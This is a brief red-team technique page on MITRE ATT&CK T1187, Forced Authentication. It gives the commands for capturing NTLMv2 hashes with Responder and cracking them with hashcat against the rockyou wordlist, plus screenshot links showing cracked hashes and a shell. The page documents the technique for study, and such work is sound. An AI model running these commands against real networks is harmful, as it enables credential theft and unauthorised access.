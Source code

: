 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution

```csharp
responder -I eth1
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

![](../.gitbook/assets/forced-auth-word.png)

![](../.gitbook/assets/forced-auth-hashes.png)

![](../.gitbook/assets/forced-auth-cracked.png)

![](../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Observations

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1187\",\"type\":\"link\",\"title\":\"Forced Authentication - ATT&CK for Enterprise\"}" %}

